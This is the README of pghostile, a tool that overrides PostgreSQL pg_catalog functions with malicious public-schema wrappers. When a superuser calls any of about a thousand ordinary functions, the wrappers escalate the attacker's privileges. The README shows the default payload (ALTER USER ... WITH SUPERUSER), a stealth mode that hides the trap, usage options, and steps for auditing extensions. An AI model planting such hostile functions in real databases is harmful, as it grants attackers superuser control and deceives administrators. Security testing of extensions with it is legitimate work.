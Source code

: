 # PGHOSTILE
Pghostile can make PostgreSQL® an hostile environment for superusers and a nice playground for attackers.
Pghostile is an automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.

It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's unit tests and see if you get superuser power after that.

See your blog post about pghostile and PostgreSQL extension security: [Aiven's Blog](https://aiven.io/blog/aiven-security-agent-for-postgresql).

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer, your function will be called if the input parameter is an integer and the original one will be called if the input is a float.
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.

In a few words, pghostile searches pg_catalog for functions (and operators) that can be overridden and creates a malicious wrapper of them in the public schema.

Currently, it can identify ~1000 calls that can lead to privilege escalation. To give an example, the list below contains some of them:
```SQL
select 1.1 * 1;
select 1 = 1.1;
select 1.1 / 1;
select array [1, 2] = array [1, 2];

select sha256('randstr');
select unnest(array [1, 2]);
select array_replace(array [1, 2], 1, 1);
select date_cmp('2022-07-12', '2022-07-12');
select time_cmp('00:00:00', '00:00:00');
select varcharout('randstr');
select round(1, 1);
select floor(1);
select power(1, 1);
select int4(1);
select div(1, 1);
select format('randstr', 1);
select pg_sleep(1.1);
select inet_out('10.0.0.1');
select hashmacaddr('01:01:01:02:02:02');
select hashinet('10.0.0.1');
select xml_out('<foo />');
select json_out('[true]');
select uuid_out('93967025-8c89-4320-ad51-4ef50694502f');
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
  -t, --track-execution
                        Track the exploit function execution
  -O, --no-overwrite    Stop execution if at least one exploit function already exists
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.
With the -T option you can disable the tests and just create the exploit functions.
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function. There are also less chances to break execution flows that could bring us to other vulnerable points.
The -t option enables the tracking of the execution of the exploit functions. It means that every successfull call of an exploit function is logged into a table of the current DB (pghostile.triggers). It's useful for extension analisys.
The -p option forces the DB's password request even if the PGPASSWORD environment variable is set.

### Example
```
pghostile.py user1 testdb -H 10.0.0.100
```
```
Starting ...

[ * ] 1272 interesting functions have been identified
[ * ] Detecting operators
[ * ] Testing 1697 functions
[ * ] 907 exploitable functions found
[ * ] 1005 function and parameters combinations run successfully
[ * ] 70 operators call run successfully
[ * ] Creating exploit functions
[ * ] Done!

907 functions have been created
1075 queries can trigger the exploit
The './out' folder contains the output
```

## PG Extension audit
Pghostile can be used to audit the security of PostgreSQL extensions:
1. Run pghostile with the '-t' option to enable execution tracking
```
pghostile.py -t user1 testdb
```
2. Run, as superuser, as many extension's queries/functions as possible
```
psql -U postgres testdb < extension_queries.sql
```
3. Check if you are superuser
```sql
SELECT rolsuper FROM pg_roles where rolname='user1'
```
4. If you are superuser, all the functions that triggered the exploit are listed in:
```sql
select * from pghostile.triggers
```

## Trademarks
The terms Postgres and PostgreSQL are registered trademarks of the PostgreSQL Community Association of Canada.
